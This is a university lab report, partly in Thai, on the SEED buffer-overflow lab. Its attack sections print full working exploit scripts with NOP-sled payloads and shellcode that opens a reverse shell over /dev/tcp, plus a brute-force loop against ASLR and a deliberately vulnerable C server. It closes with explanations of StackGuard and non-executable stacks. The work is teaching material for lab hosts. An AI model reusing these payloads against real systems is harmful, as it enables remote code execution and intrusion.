# Report Buffer Overflow Lab 

Name: Watunyoo Phanapaisarnsakul

Code: 650610804

Full Link Markdown: https://github.com/Waphyoo/261494-Penetration-Testing/blob/main/Buffer%20Overflow%20Report.md

## Lab setup


## Task 1: Get Familiar with the Shellcode (5 คะแนน)

#### Objetive
-  modify the shellcode, so you can use it to delete a file
-  In this lab, we only 
provide the binary version of a generic shellcode, without explaining how it works, because 
it is non-trivial.
---
#### shellcode_32.py 


#### Command


- python3 shell_32.py ใช้สร้าง codefile_32 ที่บรรจุ shellcode ไว้
- make สร้าง a32.out ที่เป็น executable file จาก codefile_32 โดยใช้ gcc
- เมื่อ execute a32.out จะแสดงผลลัพธ์ตามภาพ
---


#### shellcode_32.py after modify
```
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm -f /tmp/test && echo success                      *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)

```
---
- ก่อนถึง * ต้องมี 58 character
```
modify code เป็น "/bin/rm -f /tmp/test && echo success                      *"
- เมื่อลบสำเร็จจะไป echo sucess
```


เมื่อ execute a32.out จะเห็นว่า test file จะถูกลบออกไปพร้อมกับแสดงข้อความ success

## Task2: Level-1 Attack (10 คะแนน) 

### Objective
- Please provide proofs 
to show that you can successfully get the vulnerable server to run your commands.
- We want to get a 
root shell on the target server use  Reverse shell 
- Please modify the command string in your shellcode, so you can get a reverse shell on the 
target server
---

### stack.c 

```
/* Vunlerable program: stack.c */
/* You can get this program from the lab's website */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 * Suggested value: between 100 and 400  */
#ifndef BUF_SIZE
#define BUF_SIZE 200
#endif

void printBuffer(char * buffer, int size);
void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

#if __x86_64__
    unsigned long int *framep;
    // Copy the rbp value into framep, and print it out
    asm("movq %%rbp, %0" : "=r" (framep));
#if SHOW_FP
    printf("Frame Pointer (rbp) inside bof():  0x%.16lx\n", (unsigned long) framep);
#endif
    printf("Buffer's address inside bof():     0x%.16lx\n", (unsigned long) &buffer);
#else
    unsigned int *framep;
    // Copy the ebp value into framep, and print it out
    asm("mov %%ebp, %0" : "=r" (framep));
#if SHOW_FP
    printf("Frame Pointer (ebp) inside bof():  0x%.8x\n", (unsigned) framep);
#endif
    printf("Buffer's address inside bof():     0x%.8x\n", (unsigned) &buffer);
#endif

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];

    int length = fread(str, sizeof(char), 517, stdin);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

void printBuffer(char * buffer, int size)
{
   int i;
   for  (i=0; i<size; i++){

     if (i % 20 == 0) printf("\n%.3d: ", i);
     printf("%.2x ", (unsigned char) buffer[i]);
   }
}

```

- str ที่รับมาจาก main ขนาด 517 แต่ buffer ใน function bof ขนาด 200 ดังนั้นเมื่อทำ strcpy(buffer, str) จะ coppy str ใส่ใน buffer ทำให้ data ส่วนเกิน ไปทับ ส่วนอื่นใน stack frame เช่น old ebp,retern address, argment of function และ stack frame ด้านบน
---
### Server

- server คอยรับ user input จาก connection port 9090 อยู่


 เมื่อลองส่ง text hello ให้ server ผ่าน **echo hello | nc 10.9.0.5 9090** server จะแสดง 
 - input size 
 - ebp
 - buffer address
### program server.c
 ```
 #include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <time.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <signal.h>
#include <sys/wait.h>

#define PROGRAM "stack"
#define PORT    9090

int socket_bind(int port);
int server_accept(int listen_fd, struct sockaddr_in *client);
char **generate_random_env();

void main()
{
    int listen_fd;
    struct sockaddr_in  client;

    // Generate a random number
    srand (time(NULL));
    int random_n = rand()%2000; 
   
    // handle signal from child processes
    signal(SIGCHLD, SIG_IGN);

    listen_fd = socket_bind(PORT);
    while (1){
	int socket_fd = server_accept(listen_fd, &client);

        if (socket_fd < 0) {
	    perror("Accept failed");
            exit(EXIT_FAILURE);
        }

	int pid = fork();
        if (pid == 0) {
            // Redirect STDIN to this connection, so it can take input from user
            dup2(socket_fd, STDIN_FILENO);

	    /* Uncomment the following if we want to send the output back to user.
	     * This is useful for remote attacks. 
            int output_fd = socket(AF_INET, SOCK_STREAM, 0);
            client.sin_port = htons(9091);
	    if (!connect(output_fd, (struct sockaddr *)&client, sizeof(struct sockaddr_in))){
               // If the connection is made, redirect the STDOUT to this connection
               dup2(output_fd, STDOUT_FILENO);
	    }
	    */ 

	    // Invoke the program 
	    fprintf(stderr, "Starting %s\n", PROGRAM);
            //execl(PROGRAM, PROGRAM, (char *)NULL);
	    // Using the following to pass an empty environment variable array
            //execle(PROGRAM, PROGRAM, (char *)NULL, NULL);
	    
	    // Using the following to pass a randomly generated environment varraible array.
	    // This is useful to slight randomize the stack's starting point.
            execle(PROGRAM, PROGRAM, (char *)NULL, generate_random_env(random_n));
        }
        else {
            close(socket_fd);
	}
    } 

    close(listen_fd);
}


int socket_bind(int port)
{
    int listen_fd;
    int opt = 1;
    struct sockaddr_in server;

    if ((listen_fd = socket(AF_INET, SOCK_STREAM, 0)) == 0)
    {
        perror("socket failed");
        exit(EXIT_FAILURE);
    }

    if (setsockopt(listen_fd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt)))
    {
        perror("setsockopt failed");
        exit(EXIT_FAILURE);
    }

    memset((char *) &server, 0, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_addr.s_addr = htonl(INADDR_ANY);
    server.sin_port = htons(port);

    if (bind(listen_fd, (struct sockaddr *) &server, sizeof(server)) < 0)
    {
        perror("bind failed");
        exit(EXIT_FAILURE);
    }

    if (listen(listen_fd, 3) < 0)
    {
        perror("listen failed");
        exit(EXIT_FAILURE);
    }

    return listen_fd;
}

int server_accept(int listen_fd, struct sockaddr_in *client)
{
    int c = sizeof(struct sockaddr_in);

    int socket_fd = accept(listen_fd, (struct sockaddr *)client, (socklen_t *)&c);
    char *ipAddr = inet_ntoa(client->sin_addr);
    printf("Got a connection from %s\n", ipAddr);
    return socket_fd;
}

// Generate environment variables. The length of the environment affects 
// the stack location. This is used to add some randomness to the lab.
char **generate_random_env(int length)
{
    const char *name = "randomstring=";
    char **env;

    env = malloc(2*sizeof(char *));

    env[0] = (char *) malloc((length + strlen(name))*sizeof(char));
    strcpy(env[0], name);
    memset(env[0] + strlen(name), 'A', length -1);
    env[0][length + strlen(name) - 1] = 0;
    env[1] = 0;
    return env;
}


 ```


- คอยรับ user input จาก connection port 9090 อยู่
- จะเรียก stack.c เมื่อมี connection ต่อมา โดย fork() + exec() process ใหม่ ทำให้เราทดลอง payload ได้เรื่อยๆ 


---


- จะทำให้ host และ server ที่รันอยู่บน docker ไม่ random address เมื่อ program ถูกรัน


- เมื่อลองเชื่อมต่อ server อีกครั้งจะเห็นว่า address ไม่เปลี่ยนแปลง

### หลักการคิด

#### ตัวอย่างแนวคิด

- str ที่รับมาจาก main ขนาด 517 แต่ buffer ใน function bof ขนาด 200 ดังนั้นเมื่อทำ strcpy(buffer, str) จะ coppy str ใส่ใน buffer ทำให้ data ส่วนเกิน ไปทับ ส่วนอื่นใน stack frame เช่น old ebp,retern address, argment of function และ stack frame ด้านบน
- ebp = 0xffffd248
- buffer's address = 0xffffd1d8



- offset = 112 + 4 = 116



### แล้ว return address(ret) จะกระโดดไปไหนได้บ้าง ?
- NOP-sled = ทางลาดลื่น (slide) จาก NOP ไปสู่ shellcode
- ซึ่ง NOP จะต้องต่อเนื่องกันไป จนไปถึง address ที่เก็บ shell code ไว้ เพื่อให้ shell code ทำงาน
- ถ้าให้ ret อยู่ในช่วง ของ offset((ebp + 4) - buffer's address). NOP-sled จะถูกขัดจังหวะด้วย value ที่เก็บอยู่ใน ret เอง
- ดังนั้น ret ควรมีค่าอยู่ในช่วงที่มากกว่า ret's address + 4 หรือ ret = ebp + 8


### Shell Code
```
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i >& /dev/tcp/10.9.0.1/4444 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd248 + 8   # Change this number 
offset = 116              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```


## Task 3: Level-2 Attack  (20 คะแนน) 


### Objective

- Your job is to construct one payload to exploit the buffer overflow vulnerability on the server, 
and get a root shell on the target server (using the reverse shell technique)
- Range of the buffer size (in bytes): [100, 300] 
- Only allowed to construct one payload that works for any buffer size within this 
range.



```
[10/09/25]seed@VM:~/.../attack-code$ python3 dynamic_buffer_size.py 
0x90
==============================================================================
PAYLOAD HEXDUMP WITH ACTUAL ADDRESSES (Total: 517 bytes)
Buffer starts at: 0xffffcfb8
==============================================================================
ffffcfb8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcfc8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcfd8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcfe8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcff8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd008: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd018: 90 90 90 90 ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd028: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd038: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd048: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd058: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd068: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd078: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd088: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd098: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0a8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0b8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0c8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0d8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0e8: ec d0 ff ff 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd0f8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd108: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd118: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd128: 90 90 90 90 90 90 90 90 90 90 90 90 90 eb 29 5b  |..............)[|
ffffd138: 31 c0 88 43 09 88 43 0c 88 43 47 89 5b 48 8d 4b  |1..C..C..CG.[H.K|
ffffd148: 0a 89 4b 4c 8d 4b 0d 89 4b 50 89 43 54 8d 4b 48  |..KL.K..KP.CT.KH|
ffffd158: 31 d2 31 c0 b0 0b cd 80 e8 d2 ff ff ff 2f 62 69  |1.1........../bi|
ffffd168: 6e 2f 62 61 73 68 2a 2d 63 2a 2f 62 69 6e 2f 62  |n/bash*-c*/bin/b|
ffffd178: 61 73 68 20 2d 69 20 3e 26 20 2f 64 65 76 2f 74  |ash -i >& /dev/t|
ffffd188: 63 70 2f 31 30 2e 39 2e 30 2e 31 2f 34 34 34 34  |cp/10.9.0.1/4444|
ffffd198: 20 30 3c 26 31 20 32 3e 26 31 20 20 20 20 20 20  | 0<&1 2>&1      |
ffffd1a8: 20 20 20 20 2a 41 41 41 41 42 42 42 42 43 43 43  |    *AAAABBBBCCC|
ffffd1b8: 43 44 44 44 44                                   |CDDDD|
==============================================================================


```



### Code dynamic_buffer_size.py 

```
#!/usr/bin/python3
import sys
import os

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i >& /dev/tcp/10.9.0.1/4444 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

buffer_addr = 0xffffcfb8
ret = buffer_addr + 308
for offset in range(100, 308,4):
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 

print(hex(content[0]))
# =============== แสดง Hexdump ด้วย Address ===============
print("=" * 78)
print(f"PAYLOAD HEXDUMP WITH ACTUAL ADDRESSES (Total: {len(content)} bytes)")
print(f"Buffer starts at: 0x{buffer_addr:08x}")
print("=" * 78)

# แสดงด้วย address จริง
for i in range(0, len(content), 16):
    chunk = content[i:i+16]
    
    # คำนวณ address จริง
    actual_address = buffer_addr + i
    
    hex_part = ' '.join(f'{b:02x}' for b in chunk)
    ascii_part = ''.join(chr(b) if 32 <= b < 127 else '.' for b in chunk)
    
    # แสดง address จริง
    print(f"{actual_address:08x}: {hex_part:<48} |{ascii_part}|")

print("=" * 78)

with open('badfile', 'wb') as f:
    f.write(content)
    
os.system('cat ./badfile | nc 10.9.0.6 9090')

```

### Condition
- Server ไม่บอก ebp ---> คำนวณหา offset ไม่ได้ ---> ระบุตำแหน่งที่อยู่ของ ret ไม่ได้


### Solve

- โจทย์ให้ Range of the buffer size (in bytes): [100, 300] 
- เนื่องจาก ระบุตำแหน่งที่อยู่ของ ret ไม่ได้ และทราบว่า min size of buffer = 100 เพื่อให้ shell code ทำงาน จะต้องเขียนทับ return address ให้ชี้ไปยัง NOP-sled(ที่อยู่ติดกับ shell code) จึงต้องเขียน ret value เข้าไปใน buffer ตั้งแต่ buffer[100] จนถึง buffer[308] โดยคาดหวังว่ามี Memory ในส่วนที่บรรจุ return address อยู่
- ret น้อยสุดที่เป็นไปได้ที่จะเกิด NOP-sled ในกระณีที่ buffer size = 300 คือ buffer_addr + (max size of buffer = 300) + 8


## Task 4: Experimenting with the Address Randomization (5 คะแนน) 

### OBjective
- Please send a message to the Level1 server, and do it multiple times. In your 
report, please report your observation, and explain why ASLR makes the buffer-overflow 
attack more difficult.
- Use the brute-force approach to attack the server repeatedly

```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl -w kernel.randomize_va_space=2  
```


### brute-force.sh
```
#!/bin/bash

SECONDS=0
value=0

while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  cat badfile | nc 10.9.0.5 9090
done

```
- ใช้ badfile จาก Level-1 attack 
- จะเป็นการ ส่ง payload เดิมให้ server ซ้ำๆ

### ASLR makes the buffer-overflow attack more difficult
- ในการโจมตีจำเป็นต้องรู้ตำแหน่งของ return address เพื่อเขียนทับ return address value ให้ชี้ไปยัง NOP-sled ที่ติดกับ shell code ดังนั้น จะต้องรู้ตำแหน่งของ buffer's address หรือ ตำแหน่งของ Previous frame pointer เพื่อให้คำนวณหา ตำแหน่งของ return address
- แต่ทุกครั้งที่เราส่ง payload ให้ server แล้ว server จะเรียก stack program ซึ่ง address จะถูกสุ่ม เนื่องจาก ASLR enable ทำให้ แต่ละ secment ใน moemory layout เปลี่ยน address ทุกครั้งที่รัน ซึ่ง ตำแหน่งของ buffer's address หรือ ตำแหน่งของ Previous frame pointer เพื่อให้คำนวณหา ตำแหน่งของ return address จะอยู่ใน stack secment ทำให้ไม่สามารถคำนวณหา ตำแหน่งของ return address ที่แน่นอนได้ ทำให้การโจมตียากมากขึ้น

### หลักการโจมตี
- จะรัน brute-force.sh โดยจะเป็นการเรียก badfile ซ้ำๆ 
- การสุ่มของ ASLR เปรียบเหมือนการสุ่ม addres ของ NOP-sled ที่ติดกับ shell code 
- โดยคาดหวังว่าช่วงของ NOP-sled นั้นจะมีสักค่าหนึ่งที่ตรงกับ ret value ที่ตั้งไว้ใน badfile


## Tasks 5: Experimenting with Other Countermeasures ( 10 คะแนน) 

### Objective 1
- Turn on the StackGuard Protection
- Describe and explain your observations. 

### Objective 2
- Turn on the Non-executable Stack Protection 
- Describe and explain your observations

---
### Objective 1 - Turn on the StackGuard Protection



- gcc turn on the StackGuard Protection



- ลบแล้วสร้าง stack-L1 ใหม่



- canary ถูกเขียนทับ

```
The value of the canary is checked periodically for any change from the initial value. If any change is detected, the stack smashing detected error is produced.
```

https://www.scaler.com/topics/stack-smashing-detected/


https://www.redhat.com/en/blog/security-technologies-stack-smashing-protection-stackguard

https://www.scaler.com/topics/stack-smashing-detected/

### หลักการทำงานพื้นฐาน

1. **แทรก canary value** ระหว่าง stack variables และ return address
2. **ตรวจสอบ canary** ก่อน function return
3. **Terminate program** หาก canary ถูกเปลี่ยนแปลง
4. **ลดผลกระทบ** จาก code execution เหลือเพียง denial of service

### ประเภทของ Canary ทั้ง 3 แบบ

**1. Terminator Canaries:**
- ประกอบด้วยอักขระ: NULL(0x00), CR(0x0d), LF(0x0a), EOF(0xff)
- หลักการ: string functions จะหยุดทำงานเมื่อเจออักขระเหล่านี้
- ข้อเสีย: ผู้โจมตีรู้ค่า canary ล่วงหน้า
- การ bypass: ใช้ non-string functions และเขียนทับ canary ด้วยค่าที่ถูกต้อง

**2. Random Canaries:**
- สุ่มค่าตอน program startup จาก `/dev/urandom`
- หากไม่มี `/dev/urandom` จะใช้ hash ของเวลา
- ข้อดี: ไม่สามารถทำนายค่าได้ล่วงหน้า
- การ bypass: ต้องมี information leak เพื่ออ่านค่า canary

**3. Random XOR Canaries:**
- XOR random value กับ control data (frame pointer + return address)
- เมื่อ canary หรือ control data ถูกเปลี่ยน ค่าจะผิดทันที
- ป้องกันได้ดีที่สุด

### การทำงานจริงใน Assembly Level

**โค้ดต้นฉบับ:**
```c
void function1(const char* str) {
    char buffer[16];
    strcpy(buffer, str);
}
```

**หลัง StackGuard Transform:**
```c
extern uintptr_t __stack_chk_guard;
noreturn void __stack_chk_fail(void);

void function1(const char* str) {
    uintptr_t canary = __stack_chk_guard;  // โหลด canary
    char buffer[16];
    strcpy(buffer, str);
    if ((canary = canary ^ __stack_chk_guard) != 0)  // ตรวจสอบ
        __stack_chk_fail();  // terminate หากผิดพลาด
}
```

----
### Ghidra Stack-L1



- จะเห็นว่า เมื่อ Decompile stack-L1 ที่มี StackGuard
- compiler จะเพิ่ม code เข้าไปเพื่อตัวสอบค่าของ canary



- ตาม __stack_chk_fail() เข้าไปเจอก็จะเจอ stack smashing detected

---

### Objective 2 - Turn on the Non-executable Stack Protection 

### Senario
ในอดีต ระบบปฏิบัติการอนุญาตให้ stack สามารถรันโค้ดได้ (executable stack) แต่ปัจจุบันเปลี่ยนแปลงไปแล้ว

#### วิธีการทำงานใน Ubuntu
1. **Program Header Marking**
   - ไฟล์ binary ของโปรแกรม (และ shared libraries) ต้องประกาศว่าต้องการ executable stack หรือไม่
   - ต้องมีการทำเครื่องหมายใน program header

2. **การตัดสินใจของระบบ**
   - Kernel หรือ dynamic linker จะอ่านเครื่องหมายนี้
   - แล้วตัดสินใจว่าจะทำให้ stack ของโปรแกรมนั้น execute ได้หรือไม่

#### การทำงานของ GCC
- **ค่า Default**: GCC จะทำ stack เป็น **non-executable** โดยอัตโนมัติ
- **ทำให้ non-executable ชัดเจน**: ใช้แฟล็ก `-z noexecstack`
- **ทำให้ executable** (ในแล็บนี้): ใช้แฟล็ก `-z execstack`




- แก้ไข Makefile ให้ใช้ **ค่า Default**: GCC จะทำ stack เป็น **non-executable** โดยอัตโนมัติ

